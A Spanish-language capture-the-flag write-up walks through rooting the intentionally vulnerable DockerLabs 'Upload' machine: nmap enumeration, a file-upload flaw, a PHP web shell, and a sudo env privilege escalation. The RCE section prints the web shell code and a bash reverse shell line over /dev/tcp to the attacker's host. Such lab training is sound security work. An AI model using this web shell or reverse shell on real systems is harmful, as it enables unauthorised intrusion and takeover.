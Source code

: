 ```yaml
---
Nombre de la máquina: Upload
Sistema Operativo: Linux
Dificultad: Very Easy 🔵
Skills: File Upload, RCE, Reverse Shell, Abusing sudoers
Enlace de descarga: https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ
---
```

----

## Montando el laboratorio

Lo primero que deberemos hacer para practicar con esta máquina es, dirigirnos a la página de [dockerlabs](https://dockerlabs.es/) y descargarnos la máquina desde el [siguiente enlace](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ).

```
sudo bash auto_deploy.sh upload.tar
```

Al ejecutar el comando, nos pedirá la contraseña. Al introducirla correctamente, tendremos que esperar hasta que nos indique que la máquina está desplegada.

![Desplegando máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/2bd227ab-c8fd-41bd-8519-6ff2025cc0f5)

Como podemos ver en la imagen anterior, la máquina está desplegada correctamente y su dirección IP es la **172.17.0.2**.

## Como eliminar la máquina vulnerable

Esto nos habrá montado la máquina vulnerable *Upload* a través de *docker*. En caso de querer eliminarla, simplemente presionaremos en el teclado **CTRL** + **C** y la máquina se eliminará automáticamente.

![Eliminando máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/8bc6feba-fd43-4ab0-ac14-3ac78febbfd4)

## Comprobando la conectividad

Una vez desplegada, deberemos cerciorarnos de que tenemos conectividad con esta. Para ello, haremos uso del comando `ping` para realizar el chequeo.

![ping máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/d73924fd-658c-4bec-9e59-458f97202775)

Comprobamos que tenemos conectividad y, podemos intuir mediante el **TTL** que, el sistema operativo de la máquina víctima es *Linux*.

## Enumeración

Pasaremos con la enumeración de la máquina. Ejecutaremos el siguiente comando con el fin de descubrir posibles puertos abiertos de la víctima.

```
sudo nmap -p- --open --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

Al ejecutar el comando anterior, el resultado es el siguiente.

![Primer nmap de la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/9ff7c63f-24e0-4599-a338-74714f68119c)

Observamos que, los puertos que están abiertos son el puerto *80*. Ahora que sabemos esto, detectaremos la versión y servicio que corren bajo dichos puertos y lanzaremos una serie de scripts de enumeración propios de la herramienta `nmap` para que nos muestre información adicional.

```
sudo nmap -sCV -p80 172.17.0.2
```

Ejecutamos el comando.

![Segundo nmap de la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/3b4b7457-dc66-4223-adb9-eee35eb462b8)

En el resultado anterior detectamos que, bajo el puerto 80 está corriendo **HTTP** siendo *Apache* el servicio utilizado. Antes de realizar ningún *fuzzing* de subdirectorios, con herramientas como `fuzz` o `gobuster` ejecutaremos el script *http-enum.nse* de `nmap` para ver si nos devuelve algo interesante.

```
sudo nmap --script=http-enum 172.17.0.2
```

Ejecutamos el comando.

![http-enum de la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/58f24bf8-5b7a-410b-bd80-b5151b2d39fa)

Hemos identificado el directorio `/uploads/`, el cual será relevante en un futuro, ya que parece ser el destino de los archivos cargados durante alguna carga de archivos.

Vamos a visitar el sitio en cuestión.

![puerto 80 máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/a62046e8-1e9e-4584-8dcd-4ec93cfe051b)

Parece ser que podemos subir ficheros desde aquí lo cual es interesante, ya que si recordamos, anteriormente hemos descubierto el subdirectorio `/uploads/` y podemos pensar que son estos ficheros los que se pueden almacenar ahí.

Vamos a probar subiendo una simple imagen.

![imagen subida máquina upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/83c4f444-fa94-4c92-9600-324e95da4c0f)

Vemos que la imagen se ha subido satisfactoriamente, por lo que averigüemos si realmente el subdirectorio en cuestión almacena estos ficheros.

![Uploads directory máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/167d9a6c-822b-4041-90fe-15fa79e458aa)

Y efectivamente, este directorio almacena los ficheros que subamos en la página principal. 

## Acceso al sistema (RCE)

Ahora que sabemos que podemos subir ficheros, y tenemos el directorio donde se almacenan, procederemos a subir un fichero *.php* malicioso, con el fin de probar si se puede derivar esta subida de archivos a un **RCE**.

Subiré un fichero **PHP** con el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```

Este código se encarga de crear un parámetro con nombre *cmd*, el cual ejecutará el comando que le indiquemos. En la siguiente imagen, vemos que nos ha dejado subir este fichero.

![Subiendo fichero PHP malicioso a la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/5a068f94-e115-442a-b25d-4d6f824b78de)

Seguidamente, nos iremos al directorio `/uploads/` y nos meteremos en el fichero subido.

![rce máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/a0abb1cf-2014-40b7-9a23-9a08f4ac76e5)

Si probamos a ejecutar cualquier comando, observaremos que hemos conseguido una *ejecución remota de código* o **RCE**. Con esto, nos podremos enviar una *reverse shell* hacia nuestra máquina de atacantes con el siguiente comando:

```
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

Para lograr acceder a la máquina víctima, nos tendremos que poner en escucha por el puerto indicado en el comando anterior.

![Nos ponemos en escucha para la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/4cb8de8a-3321-46e2-bdc9-abb512d83376)

Seguidamente, ejecutamos el comando.

![Reverse Shell máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/859de00f-5aaf-4b10-a8c7-5c99ca6f65f0)

Gracias a esto, lograremos acceso a la máquina víctima desde la terminal que teníamos en escucha por el puerto *443*, en este caso.

![Acceso a la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/937daeb9-8fb2-4d3e-9c9e-ec6084c3cd42)

## Escalada de privilegios (acceso como root)

Lo primero que haremos nada más entrar es, comprobar nuestros permisos a nivel de *sudoers* con el siguiente comando:

```
sudo -l
```

Nos encontramos con que podemos ejecutar el comando `env` como el usuario *root*.

![Privilegios sudoers máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/d3893eb7-5124-418f-b2dd-84eebf93873a)

Podemos ver que en [GTFOBins](https://gtfobins.github.io/) hay una vía potencial de escalar privilegios con este permiso otorgado.

![Escalada de privilegios con el comando env en la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/3d246e6d-a4ef-415f-af29-de9d9eb38f55)

Al ejecutar el comando que nos comentan, podemos ver como hemos conseguido acceso como el usuario *root*.

![LPE abusando del comando env permisos sudoers en la máquina Upload](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/d4e8bfa9-8119-45f2-961e-ba8207173c3f)

Y ya habremos *rooteado* la máquina **Upload**.
